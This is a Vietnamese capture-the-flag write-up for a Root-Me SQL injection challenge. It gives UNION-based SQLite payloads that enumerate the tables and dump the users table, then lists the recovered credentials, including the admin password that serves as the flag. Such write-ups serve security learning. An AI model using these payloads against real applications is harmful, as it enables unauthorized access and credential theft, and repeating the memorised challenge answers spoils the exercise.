 # SQL injection - String

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-server%2FSQL%2520Injection%2FSQL%2520injection%2520-%2520String&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

`Link: http://challenge01.root-me.org/web-serveur/ch19/`

![](sc.png)

## Request:

- Retrieve the administrator password

## Solution:

### Step 1:

![](search.png)

- `Vào phần search thử với payload: 'sss'`
  -> Ta thấy xuất hiện lỗi với SQLite

![](search-result.png)

### Step 2: Xem tên các table:

- Gõ từ khoá vào thanh search: 

```sql
' union select 1,tbl_name from sqlite_master --
```

-> Ta thu được kết quả tên các table

![](view-tables.png)

### Step 3: Trích xuất password:

- Gõ từ khoá vào thanh search: 

```sql
' union select username,password from users --
```

![](view-password.png)

-> Key sẽ là password của admin

```
admin (c4K04dtIaJsuWdi)
user1 (OK4dSoYE)
user2 (8Wbhkzmd)
```